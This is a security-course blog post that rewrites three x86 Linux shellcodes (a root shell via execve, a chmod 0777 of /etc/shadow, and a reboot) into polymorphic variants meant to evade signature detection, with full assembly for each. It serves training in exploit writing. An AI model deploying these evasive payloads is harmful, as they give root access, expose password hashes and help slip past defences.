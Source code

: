 ```yaml
---
title:  "[SLAE 6] Polymorphic Shellcodes"
---
```


![Logo](/assets/images/tux-root.png)

For this assignment I've taken 3 shellcodes from  [Shell-Storm](http://shell-storm.org/) and modified them to avoid detection by pattern matching, thus achieving polymorphism (kind of, more on this later). Some techniques I've used to do this:

* Add garbage/nop-like instructions:

```c
nop

mov al,al  
mov bl,bl  
mov cl,cl  
...  
mov ax,ax  
mov bx,bx  
mov cx,cx  
...  
xchg ax,ax  
xchg bx,bx  
xchg cx,cx  
...  
lea eax, [eax + 0x00]  
lea eax, [eax + 0x00]  
lea eax, [eax + 0x00]  
```
* Add instructions without effect (e.g.: modify registers that don't affect the execution flow)
* Switch between _`mov`_, _`push`_ + _`pop`_, _`clear`_ + _`add`_:

| mov	| push + pop	| clear + add |
| :---:|:---:|:---: |
| mov al, 0xb	| push byte 0xb	| xor eax, eax|
| _ | pop eax	| add al, 0xb Z

* Switch between _`push`_ and _`mov`_ + _`add`_ + _`push`_:

| push	| mov + add + push |
| :---:|:---: |
| push 0x23456789	| mov esi, 0x12345678 |
| _ | add esi, 0x11111111 |
| _ | push esi |

* Change between _`push`_ and directly accessing the stack:

| push	| stack access |
| :---:|:---:|
| push 0x64777373	| mov dword [esp-4], 0x64777373 |
| _ | sub esp, 4 |

## 1. Execve()

First one is a polymorphic version of the _**`execve()`**_ of the following [shellcode](http://shell-storm.org/shellcode/files/shellcode-549.php): 
```c
    00000000  31C0              xor eax,eax
    00000002  31DB              xor ebx,ebx
    00000004  31C9              xor ecx,ecx
    00000006  B017              mov al,0x17
    00000008  CD80              int 0x80
    0000000A  31C0              xor eax,eax
    0000000C  50                push eax
    0000000D  686E2F7368        push dword 0x68732f6e
    00000012  682F2F6269        push dword 0x69622f2f
    00000017  89E3              mov ebx,esp
    00000019  8D542408          lea edx,[esp+0x8]
    0000001D  50                push eax
    0000001E  53                push ebx
    0000001F  8D0C24            lea ecx,[esp]
    00000022  B00B              mov al,0xb
    00000024  CD80              int 0x80
    00000026  31C0              xor eax,eax
    00000028  B001              mov al,0x1
    0000002A  CD80              int 0x80
```

And my changed version:
```c
    xor eax,eax
    mov ebx, eax            ; xor ebx,ebx
    mov ecx, ebx            ; xor ecx,ecx
    push 0x17               ; mov al,0x17
    pop ax
    xchg ecx, ecx           ; NOP added
    int 0x80                ; sys_setuid()

    xor eax,eax
    push eax
    mov dword [esp-4], 0x68732f6e ; push dword 0x68732f6e
    mov dword [esp-8], 0x69622f2f ; push dword 0x69622f2f
    sub esp, 8             ; increase the stack pointer
    mov ebx,esp
    lea edx,[esp+0x8]
    push eax
    push ebx
    lea ecx,[esp]
    mov al,0xb
    xor esi, esi            ; NOP added
    lea eax, [eax + esi]    ; NOP added
    int 0x80                ; execve()

    xor eax,eax
    mov al,0x1
    int 0x80                ; exit()
```

I've changed how registers are zeroed and how values were pushed on the stack and added some instructions with no effect.

## 2. Chmod /etc/shadow

The next [shellcode](http://shell-storm.org/shellcode/files/shellcode-828.php) changes the permissions of _`/etc/shadow`_ file: 
```c
    xor    %eax,%eax
    push   %eax
    pushl  $0x776f6461
    pushl  $0x68732f2f
    pushl  $0x6374652f
    movl   %esp,%esi
    push   %eax
    pushl  $0x37373730
    movl   %esp,%ebp
    push   %eax
    pushl  $0x646f6d68
    pushl  $0x632f6e69
    pushl  $0x622f2f2f
    mov    %esp,%ebx
    pushl  %eax
    pushl  %esi
    pushl  %ebp
    pushl  %ebx
    movl   %esp,%ecx
    mov    %eax,%edx
    mov    $0xb,%al
    int    $0x80
```

And my changed version: 
```c
    xor eax,eax
    push eax
    push dword 0x776f6461
    mov esi, 0x56611d1d         ; push dword 0x68732f2f
    lea edi, [esi]              ; junk
    add esi, 0x12121212
    push esi
    push dword 0x6374652f       ; '/etc/shadow'
    mov esi,esp
    push eax
    push dword 0x37373730       ; 0777
    mov ebp,esp
    push eax
    push dword 0x646f6d68
    mov edi, 0x030f0e09         ; push dword 0x632f6e69       
    add edi, 0x60206060
    push edi
    push word 0x622f            ; /bin/chmod
    mov ebx,esp
    push eax
    push esi
    push ebp
    push ebx
    mov ecx,esp
    mov edx,eax
    xor eax, eax                ; mov al,0xb
    add al, 0xa
    add al, 0x1
    xchg ecx, ecx               ; NOP added
    int 0x80
```

## 3. Reboot
Last one is a [reboot shellcode](http://shell-storm.org/shellcode/files/shellcode-69.php): 
```c
8048054:       31 c0                   xor    %eax,%eax
8048056:       50                      push   %eax
8048057:       68 62 6f 6f 74          push   $0x746f6f62
804805c:       68 6e 2f 72 65          push   $0x65722f6e
8048061:       68 2f 73 62 69          push   $0x6962732f
8048066:       89 e3                   mov    %esp,%ebx
8048068:       50                      push   %eax
8048069:       89 e2                   mov    %esp,%edx
804806b:       53                      push   %ebx
804806c:       89 e1                   mov    %esp,%ecx
804806e:       b0 0b                   mov    $0xb,%al
8048070:       cd 80                   int    $0x80
```

And my modified version: 
```c
    xor eax,eax
    push eax
    push dword 0x746f6f62
    mov edi, 0x05020f0e      ; push dword 0x65722f6e
    add edi,0x60702060
    push edi
    push dword 0x6962732f    ; /sbin/reboot
    mov ebx,esp
    push eax
    mov edx,esp
    push ebx
    mov ecx,esp
    push 0xa
    pop eax
    add al, 1                ; mov al,0xb
    int 0x80
```

##

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**
